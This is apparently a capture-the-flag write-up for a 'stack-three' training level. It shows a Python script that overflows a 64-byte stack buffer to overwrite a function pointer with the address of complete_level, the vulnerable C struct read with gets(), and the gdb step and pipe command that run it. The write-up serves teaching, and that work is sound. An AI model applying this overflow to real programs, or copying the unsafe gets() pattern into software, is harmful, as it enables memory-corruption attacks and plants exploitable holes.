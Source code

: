 ### stack-three
#### Script
```python
import sys 

value = 0x40069d.to_bytes(4,'little')
inject = b'A'* 64 + value 

sys.stdout.buffer.write(inject)
```
#### Analysis
According to the challenge description, we need to overwrite a function pointer on the stack. This function pointer corresponds to the *complete_level* function:
```c
char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

}
```

In the *locals* struct, we have our usual buffer followed by a **volatile int** pointer called *fp*. This function pointer should be overwritten to the *complete_level* address to complete the level.
###### Getting the address
We need to know the memory address the *complete_level* function is located in. We can get this in a variety of ways. 
- Debugger (gdb)
- Objdump 
- Disassemblers (Ghidra, IDA, etc...)

For simplicity, we can just use gdb to get this information by launching gdb on the file and passing over 
	info address complete_level
This gives us the value **0x40069d**. With this, we can use our script to execute the exploit.
```shell
python3 scripts/stack_three.py | ./stack_three
```
